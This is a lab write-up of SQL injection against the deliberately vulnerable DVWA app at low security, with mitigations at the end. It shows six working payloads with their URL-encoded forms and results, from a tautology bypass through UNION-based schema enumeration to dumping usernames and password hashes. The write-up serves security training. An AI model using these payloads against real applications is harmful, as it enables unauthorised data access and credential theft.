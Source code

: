 
---

# SQL Injection – DVWA Low Security

## Objective
Demonstrate SQL injection vulnerabilities and exploitation steps to extract sensitive data.

---

## Methodology
The testing was performed on the SQL Injection (Low) page of DVWA. Input was submitted via the User ID form field, and raw HTTP requests were also verified. All payloads were crafted to illustrate the consequences of unsanitized SQL queries.
1. Identify vulnerable User ID field.
2. Test payloads to confirm vulnerability.
3. Enumerate database structure.
4. Extract user credentials.

---

## Exploitation Steps

<details>
<summary>Step 1: Confirm Vulnerability</summary>

- **Payload:** `1' OR '1'='1`
- **URL Endcoded:** id=1%27%20OR%20%271%27=%271

**Observation:**
- Instead of returning a single user (ID 1), the application has returned all users in the database, including user ID's, first names, and surnames.
- The input has successfully modified the backend SQL query to always evaluate as true: SELECT first_name, last_name FROM users WHERE id = '1' OR '1'='1';

**Impact:** 
- Bypasses query constraints.
- User input is not sanitised or parameterised, allowing attackers to manipulate queries.
- In a real-world scenario, this type of injection could allow an attacker to access all user records, and potentially extract sensitive information such as usernames, passwords, and other database contents.

Working SQL injection:

<img width="940" height="644" alt="image" src="https://github.com/user-attachments/assets/7809b124-80ef-41dc-b76b-a2189bf9251e" />

<img width="940" height="878" alt="image" src="https://github.com/user-attachments/assets/73871ae2-665b-41de-85d3-5c0ee1797f6f" />


</details>

<details>
<summary>Step 2: Retrieve Database Version</summary>

- **Payload:** `1' UNION SELECT null, version() --`
- **URL Encoded:** id=1%27%20UNION%20SELECT%20null,%20version()%20--%20
  
**Observation:**
-  Database version: `10.1.26-MariaDB-0+deb9u1`
- The First name field was empty because we used null in the payload; the surname field shows the version
- The UNION SELECT payload works because DVWA Low does not sanitize input.
- It allows combining your query with the original, extracting backend information.

**Impact:** 
- Reveals backend system
- Confirms that SQL injection can be used not just to dump user data but also to enumerate database details.
- In a real application, this could help an attacker map the database structure, aiding further attacks.


<img width="940" height="625" alt="image" src="https://github.com/user-attachments/assets/785cf36c-ebbd-4ed9-99e8-1707b78b76c4" />



</details>

<details>
<summary>Step 3: Retrieve Database Name</summary>

- **Payload:** `1' UNION SELECT null, database() --`
- **URL Encoded:** id=1%27%20UNION%20SELECT%20null,%20database()%20--%20
  
**Observation:**
- Database: `dvwa`  

**Impact:**
- Targets specific tables
- Confirms that the active database can be enumerated via SQL injection

<img width="940" height="612" alt="image" src="https://github.com/user-attachments/assets/824fc852-c5c9-4ddc-acfc-93136269c9b7" />

</details>

<details>
<summary>Step 4: List Tables in the database</summary>

- **Payload:** `1' UNION SELECT null, group_concat(table_name) FROM information_schema.tables WHERE table_schema=database() --`
- **URL Encoded:** id=1%27%20UNION%20SELECT%20null,%20group_concat(table_name)%20FROM%20information_schema.tables%20WHERE%20table_schema=database()%20--%20
  
**Observation:** 
- Tables: `users, guestbook`
- Queries the information_schema.tables system table to get all tables in the current database. 

**Impact:** 
- Maps database structure critical for further data extraction

<img width="756" height="491" alt="image" src="https://github.com/user-attachments/assets/edf43ccb-0b72-4283-b8dd-891c05b9a1d8" />


</details>

<details>
<summary>Step 5: List Columns in Users Table</summary>

- **Payload:** `1' UNION SELECT null, group_concat(column_name) FROM information_schema.columns WHERE table_name='users' --`
- **URL Encoded:** id=1%27%20UNION%20SELECT%20null,%20group_concat(column_name)%20FROM%20information_schema.columns%20WHERE%20table_name='users'%20--%20

**Observation:** 
- Columns: `user, password`
- Queries information_schema.columns to identify the schema of the users table. 

**Impact:** 
- Column enumeration allows attackers to target sensitive data fields specifically.

<img width="940" height="616" alt="image" src="https://github.com/user-attachments/assets/c4cf25a6-f08c-43e6-a1ec-6bcd28453f4f" />

</details>

<details>
<summary>Step 6: Dump Users Table</summary>

- **Payload:** `1' UNION SELECT user, password FROM users --`
- **URL Encoded:** id=1%27%20UNION%20SELECT%20user,%20password%20FROM%20users%20--%20

**Observation:** 
- Returns all usernames and password hashes
- Can now extract sensitive information from the database using SQL injection 

**Impact:** 
- Full compromise of sensitive data
- Column enumeration allows attackers to target sensitive data fields specifically.

<img width="940" height="655" alt="image" src="https://github.com/user-attachments/assets/a6ea7a6e-0d5a-4bb1-9f8c-e64deda42562" />

</details>

---

## Summary
•	DVWA Low Security is vulnerable to SQL injection.
•	All six steps demonstrate the exploitation path from query manipulation to full data extraction.
•	Real-world implications:
    o	Attackers can retrieve all users and sensitive information.
    o	Database enumeration allows mapping and further exploitation.

---

## Recommendations/Mitigations
1.	Use parameterized queries / prepared statements to prevent user input from altering SQL syntax.
2.	Sanitize and validate all inputs to block malicious payloads.
3.	Limit database privileges — avoid giving web applications full access to system tables.
4.	Implement monitoring / WAF to detect suspicious queries.

---

## Try It Yourself
To replicate this test safely:
1. Install and configure DVWA locally.
2. Navigate to **SQL Injection (Low)**.
3. Use the payloads provided in each step.  

Important: Only test in a controlled lab (like DVWA).  
Never attempt these techniques on real applications.

---

## SQL Injection Flow Diagram

```mermaid
graph LR
A[User Input] --> B[DVWA SQL Query]
B --> C{Sanitized?}
C -- No --> D[SQL Injection Success]
C -- Yes --> E[Query Safe]



